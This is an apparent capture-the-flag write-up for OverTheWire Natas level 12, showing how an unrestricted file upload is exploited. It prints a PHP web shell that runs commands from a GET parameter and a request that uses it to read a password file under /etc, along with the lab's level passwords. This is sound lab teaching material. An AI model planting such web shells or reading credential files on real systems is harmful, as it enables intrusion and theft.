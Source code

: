 ```yaml
---
layout: post
title:  "Natas Level 12 → Level 13"
date: 2017-07-04
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 12
Username : natas12
Password : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
URL      : http://natas12.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas12 application using the credentials provided above.

As we can see, the application allows a user to upload JPEG files to the server with a maximum size of 1KB. I uploaded the following image to the server and the server responds back with the location of the file.

![Natas12-1](https://securitytimes.files.wordpress.com/2017/06/orange-sun-small-min.jpg?w=663)

Upon inspection of the source code and checking Burp logs, we can see that the application changes the filename to some random characters and sends it in a POST request to the server to upload the file.

![Natas12-2](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-28-53-pm.png?w=663)

The file is uploaded at a random path using the function **makeRandomPath($dir, $ext)**. The application does not perform any checks on the filetype of the file and merely stores it in a random directory. Therefore, it seems like the application is vulnerable to '**Unrestricted File Upload**'. Let’s create a new php file and inject some code into it.

`<?php
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>`

The application changes the extension of the file to a jpg. To bypass this, we can intercept the request in Burp and change the filename to php. This would keep the extension intact while the file is uploaded on the server.

![Natas12-3](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-53-03-pm.png?w=663)

After uploading, we can see that the application responds with a list of files and folder found in the upload folder as intended.

![Natas12-4](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-50-06-pm.png?w=663)

Let’s modify the shellcode to take input from the user. We can then ask the file to print content of **/etc/natas_webpass/natas13**.

`<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>`

The above shellcode would take a command from the GET variable cmd and print the output back to us. Let’s run the following command:
`http://natas12.natas.labs.overthewire.org/upload/pgfs4n9g3p.php?cmd=cat%20/etc/natas_webpass/natas13`, replace pgfs4n9g3p.php with the randomized filename generated by the application and Voila! the application responds with the password for the next level.

<pre><h3><b>Level 13
Username : natas13
Password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL      : http://natas13.natas.labs.overthewire.org</b></h3></pre>
